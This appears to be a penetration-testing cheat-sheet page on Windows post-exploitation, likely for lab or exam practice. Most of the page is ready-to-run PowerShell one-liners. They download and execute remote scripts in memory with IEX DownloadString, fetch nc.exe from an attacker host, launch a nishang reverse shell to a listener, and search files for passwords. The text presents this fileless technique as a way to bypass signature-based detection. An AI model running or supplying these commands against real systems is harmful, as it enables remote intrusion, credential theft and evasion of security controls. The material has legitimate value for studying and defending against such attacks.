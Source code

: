 ```
findstr /spin "password" . findstr /spin "password" .
```

### Download files from Attacker Box ( Kali ) to the target via powershell

```
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.39/rev.ps1')
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

#### Other downloading and uploading techinques

Download Github repo: [https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

you need to manually edit the powershell script to run itself without -C or -command.

For example, using [**Invoke-PowerShellTcp.ps1**](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) **in**​ /opt/nishang/Shells**/**Invoke-PowerShellTcp.ps1

Provoke this commmand maually by adding the command at the end of the powershell file.

```
Invoke-PowerShellTcp -Reverse -IPAddress $listenerip -Port 4444
```

![](https://gblobscdn.gitbook.com/assets%2F-Luj\_UTA-FG9do0VYXMX%2F-M2Gyy7MYLmYjyw4FWmj%2F-M2Gz6uF6t-igRGi5ozA%2Fimage.png?alt=media\&token=530110e1-4dde-4c5f-8dc9-9a09a093c15d)

_**You can copy the file to the victim and execute the command just by invoking DownloadString without Powershell –Command**_ argument. This technique is wildly used to create so-called file-less malware where the evil script is executed directly in the memory of the victim machine without dropping any file as such on the harddisk. This technique is used to bypass signature based detection.&#x20;

```
powershell.exe “IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.8:8000/Invoke-PowerShellTcp.ps1')"
```

Or you can manually invoke the command via powershell string. For example,

```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $listenerip -Port 4444"
```

Also for PS version 1 and 2

PS Version 1

```
c:\Windows\System32\cmd.exe /c powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://45.58.34.196:8080/p')"
```

